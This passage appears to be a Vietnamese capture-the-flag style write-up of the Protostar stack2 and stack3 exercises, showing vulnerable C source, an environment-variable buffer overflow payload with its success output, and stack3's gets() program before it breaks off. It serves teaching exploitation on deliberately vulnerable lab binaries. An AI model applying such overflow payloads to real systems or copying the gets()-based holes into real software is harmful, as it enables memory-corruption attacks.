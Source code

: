 ```c

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

Mấy cách làm trên tương tự

Bài này ta đọc kỹ có hàm **getenv**, gg tìm hiểu thì hàm nay là lấy biến môi trường mà biến gán nó lại là **point**.

## Exploitation

Vậy lỗi ở đây ta chỉ cần đặt GREENTE = \<ký tự ghi đè> -----> đ/c biến modifed cần ghi đè để so sanh bằng bằng 0d0a0d0a thì xin win thôi.

## PayLoad

```
  GREENIE=$(python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'") ./stack2
  you have correctly modified the variable
```

## Stack 3

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
